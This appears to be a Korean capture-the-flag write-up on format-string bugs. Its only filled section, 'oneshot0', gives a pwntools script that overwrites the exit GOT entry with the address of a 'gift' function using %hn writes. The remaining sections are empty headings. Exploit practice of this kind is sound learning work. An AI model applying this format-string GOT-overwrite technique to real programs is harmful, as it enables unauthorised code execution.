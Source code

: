 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있는 것으로 보인다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode()
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode()
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1




## oneshot2




## oneshot3





## oneshot4
